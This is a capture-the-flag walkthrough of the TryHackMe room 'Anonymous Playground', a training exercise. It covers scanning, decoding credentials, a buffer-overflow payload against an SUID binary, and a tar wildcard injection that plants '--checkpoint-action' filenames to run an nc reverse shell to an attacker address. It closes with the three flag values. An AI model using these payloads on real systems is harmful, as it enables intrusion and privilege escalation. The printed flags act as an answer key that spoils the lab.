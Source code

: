 # Anonymous Playground

Want to become part of Anonymous? They have a challenge for you. Can you get the flags and become an operative?

[Anonymous Playground](https://tryhackme.com/room/anonymousplayground)

* Network Enumeration
* Web Poking
* Cookie Manipulation
* Python Scripting (Decoding)
* Reverse Engineering
* Exploiting Crontab

## Task 1 Prove Yourself

So, you've decided to sign up with Anonymous?  Well, it won't be that easy.  They've constructed a vulnerable CTF machine for
you to hack your way into and prove you have what it takes to become a member of Anonymous.  Can you do it?  Do you have
what it takes?

There's 3 flags on this machine.  Two will be users, the other user will be the almighty root.

I have to credit Robin for his insane dedication to helping me with all of my RE and Binex questions.  Without his patience,
I would have never been able to create this room the way I had imagined it.  So thank you sir.

Also credit goes to Sq00ky for the super special idea found in the initial foothold stage (not going to give any
spoilers away!)

Please allow 3-5 minutes for the box to fully deploy once you hit the "Deploy" button.

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ sudo nmap -A -sS -sC -sV -O 10.10.149.68
[sudo] password for kali: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 18:10 CEST
Nmap scan report for 10.10.149.68
Host is up (0.034s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 60:b6:ad:4c:3e:f9:d2:ec:8b:cd:3b:45:a5:ac:5f:83 (RSA)
|   256 6f:9a:be:df:fc:95:a2:31:8f:db:e5:a2:da:8a:0c:3c (ECDSA)
|_  256 e6:98:52:49:cf:f2:b8:65:d7:41:1c:83:2e:94:24:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/zYdHuAKjP
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Proving Grounds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/20%OT=22%CT=1%CU=35745%PV=Y%DS=2%DC=T%G=Y%TM=5F8F0C
OS:04%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OP
OS:S(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST
OS:11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)EC
OS:N(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=
OS:AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N
OS:%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%C
OS:D=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT      ADDRESS
1   35.49 ms 10.8.0.1
2   35.60 ms 10.10.149.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.98 seconds
```

[http://10.10.149.68/robots.txt](http://10.10.149.68/robots.txt)

```
User-agent: *
Disallow: /zYdHuAKjP
```

[http://10.10.149.68/zYdHuAKjP/](http://10.10.149.68/zYdHuAKjP/)

![](./2020-10-20_18-13.png)

![](./2020-10-20_18-14.png)

`hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN`

```py
def positions(str):
    list1 = []
    for i in str:
        list1.append((ord(i) & 31))

    res = []
    for ele in range(0, len(list1), 2):
        res.append((list1[ele] + list1[ele + 1]) % 26)


    for i in range(len(res)):
        print(chr(res[i] + 64).lower(), end=" ")

str1 = "hEzAdCfHzA"
positions(str1)
print("::", end=" ")
str2 = "hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN"
positions(str2)
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ python3 script.py 
m a g n a :: m a g n a i s a n e l e p h a n t 
```

`magna::magnaisanelephant`

```
magna@anonymous-playground:~$ ls -la
total 64
drwxr-xr-x 7 magna  magna  4096 Jul 10 02:17 .
drwxr-xr-x 5 root   root   4096 Jul  4 19:25 ..
lrwxrwxrwx 1 root   root      9 Jul  4 19:42 .bash_history -> /dev/null
-rw-r--r-- 1 magna  magna   220 Jul  4 16:47 .bash_logout
-rw-r--r-- 1 magna  magna  3771 Jul  4 16:47 .bashrc
drwx------ 2 magna  magna  4096 Jul  4 20:49 .cache
drwxr-xr-x 3 magna  magna  4096 Jul  7 01:04 .config
-r-------- 1 magna  magna    33 Jul  4 19:44 flag.txt
drwx------ 3 magna  magna  4096 Jul  4 20:49 .gnupg
-rwsr-xr-x 1 root   root   8528 Jul 10 01:47 hacktheworld
drwxrwxr-x 3 magna  magna  4096 Jul  4 20:47 .local
-rw-r--r-- 1 spooky spooky  324 Jul  6 21:24 note_from_spooky.txt
-rw-r--r-- 1 magna  magna   807 Jul  4 16:47 .profile
drwx------ 2 magna  magna  4096 Jul  4 20:55 .ssh
-rw------- 1 magna  magna   817 Jul  7 01:52 .viminfo
magna@anonymous-playground:~$ cat flag.txt 
9184177ecaa83073cbbf36f1414cc029
```

```
magna@anonymous-playground:~$ cat note_from_spooky.txt 
Hey Magna,

Check out this binary I made!  I've been practicing my skills in C so that I can get better at Reverse
Engineering and Malware Development.  I think this is a really good start.  See if you can break it!

P.S. I've had the admins install radare2 and gdb so you can debug and reverse it right here!

Best,
Spooky
```

```
magna@anonymous-playground:~$ (python -c 'print "A"*72 + "\x58\x06\x40\x00\x00\x00\x00\x00"' ; cat) | ./hacktheworld 
Who do you want to hack? 
We are Anonymous.
We are Legion.
We do not forgive.
We do not forget.
[Message corrupted]...Well...done.
python -c 'import pty; pty.spawn("/bin/bash")'
spooky@anonymous-playground:/home/spooky$ cat flag.txt
cat flag.txt
69ee352fb139c9d0699f6f399b63d9d7
```

```
spooky@anonymous-playground:/home/spooky$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/1 *   * * *   root    cd /home/spooky && tar -zcf /var/backups/spooky.tgz *
```

```
spooky@anonymous-playground:/home/spooky$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f" > shell.sh
spooky@anonymous-playground:/home/spooky$ echo "" > "--checkpoint-action=exec=sh shell.sh"
 shell.sh""--checkpoint-action=exec=sh 
spooky@anonymous-playground:/home/spooky$ echo "" > --checkpoint=1
echo "" > --checkpoint=1
spooky@anonymous-playground:/home/spooky$
```

```
kali@kali:~/CTFs/tryhackme/Anonymous Playground$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.8.106.222] from (UNKNOWN) [10.10.149.68] 41480
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
flag.txt
# cat flag.txt
bc55a426e98deb673beabda50f24ce66
```

1. User 1 Flag

`9184177ecaa83073cbbf36f1414cc029`

2. User 2 Flag

`69ee352fb139c9d0699f6f399b63d9d7`

3. Root Flag

`bc55a426e98deb673beabda50f24ce66`
